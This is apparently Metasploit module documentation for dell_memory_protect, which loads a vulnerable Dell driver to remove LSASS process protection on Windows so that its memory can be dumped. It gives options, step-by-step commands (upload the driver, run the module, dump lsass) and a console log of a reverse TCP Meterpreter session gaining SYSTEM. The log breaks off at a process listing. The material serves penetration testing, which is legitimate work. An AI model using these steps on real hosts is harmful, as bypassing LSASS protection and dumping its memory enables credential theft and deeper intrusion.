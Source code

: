 ## Options

### DRIVER_PATH

The path on the RHOST containing the driver inf, cat, and sys (and coinstaller depending on the version). For example,
in the scenarios below, the driver files are uploaded to `C:\Windows\Temp`, so this should be `set DRIVER_PATH C:\\Windows\\Temp`.

### ENABLE_MEM_PROTECT

Enable or disable memory protection on the targeted process. `false` will remove memory protection and `true` will enable it.

### PID

The ID of the targeted process. If set to 0 (the default value), the module will automatically find lsass.exe.

## Verification Steps

1. Start msfconsole
1. Get a system Meterpreter session on a host using UEFI or Secure Boot and configured with RunAsPPL.
1. Obtain the pid of lsass.exe: `ps | grep lsass`
1. Background the session
1. Do: `post/windows/gather/memory_dump`
1. Set the `SESSION`, `PID`, and `DUMP_PATH` options.
1. Do: `run`
1. Observe a permission denied error.
1. Return to the previous session: `sessions -i 1`
1. Upload the required driver files: `upload /home/albinolobster/drivers/2_7/ C:\\Windows\\Temp\\`
1. Background the session
1. Do: `use post/windows/manage/dell_memory_protect`
1. Set the `SESSION`, `PID`, and `DRIVER_PATH` (e.g. `C:\\Windows\\Temp`) options.
1. Do: `run`
1. Observe the module exits successfully.
1. Do: `post/windows/gather/memory_dump`
1. Do: `run`
1. Observe the successful memory dump of lsass

## Scenarios

### Windows 11 Build 22000.348 x64 using DBUtilDrv2 version 2.7

```
[*] Started reverse TCP handler on 10.0.0.9:1270 
[*] Meterpreter session 1 opened (10.0.0.9:1270 -> 10.0.0.8:47730 ) at 2021-12-07 12:48:57 -0800

meterpreter > sysinfo
Computer        : BADBLOOD
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: badblood\albinolobster
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > ps | grep lsass
```